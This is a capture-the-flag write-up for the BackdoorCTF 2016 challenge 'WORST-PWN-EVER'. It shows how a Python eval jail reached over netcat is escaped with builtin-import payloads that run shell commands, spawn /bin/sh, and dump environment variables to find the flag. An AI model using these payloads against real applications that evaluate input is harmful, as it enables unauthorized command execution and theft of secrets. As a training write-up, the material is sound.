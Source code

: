 Author: michals (Michał Soczewka)

WORST-PWN-EVER
==============

CTF: BackdoorCTF 2016  
Link: https://backdoor.sdslabs.co/challenges/WORST-PWN-EVER  
Author: Ashish Chaudhary  
Points: 100  
Category: pwn, Python


Description
-----------

>   tocttou is an enviornmentalist. But some say he has a vicious motive
>   and he uses nature to hide his dark side. We found a weird shell on
>   his amazon (pun inteded) web services. Can you tell us what is he
>   upto?
>
>   Tip: he might shut down the machine if he notices you - and he will
>   (maybe in 45 seconds).
>
>   Access: nc hack.bckdr.in 9008


## TL;DR
We have been given an Python eval jail over a TCP socket.  
The solution is to retreive an environment variable using one 
of the classic builtin hacks, for example:
```python
__import__('os').system('env|grep -iE ".*f.*l.*a.*g"')
```

## Solution
After establishing a~connection to the given server a~prompt is returned.  
Let's try some random fuzzing...
First let's see what happens when we press ```CTRL+D```
right away:

```
> EOFError: EOF when reading a line
--> WHAT ARE YOU DOING HERE? >-[
```
Let's check if it is a~system shell:
```
> echo x
SyntaxError: unexpected EOF while parsing (<string>, line 1)
--> WHAT ARE YOU DOING HERE? >-[
```
No, it's definitely not a~system shell. It looks like a~Python interpreter.  
Let's check this theory then:
```
> 1+1
```
No response, no error ---~it looks promising.  
Let's check then if we can see some Python errors:
```
> 1+'x'*[]
TypeError: can't multiply sequence by non-int of type 'list'
```
Bingo! If it really is an old ```eval``` jail, then
we could escape using a~classic builtin hacks.  
Let's check that:
```
> str(__import__('os').system('echo x'))
x
```
 Got it! Let's get a shell and start looking around:
```
> __import__('pty').spawn('/bin/sh')
sh-4.3#
```

After looking through available files for a~few minutes
and finding nothing useful, we noticed the task description
contains a~clue ---~the word ```environmentalist```
suggests checking environment variables.

```
sh-4.3# env
HOSTNAME=43523caef67d
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
_F_L_A_G_='xxxxxxxxxxxxxxx CENSORED xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx'
PWD=/scripts
SHLVL=3
HOME=/root
_=/usr/bin/env
```
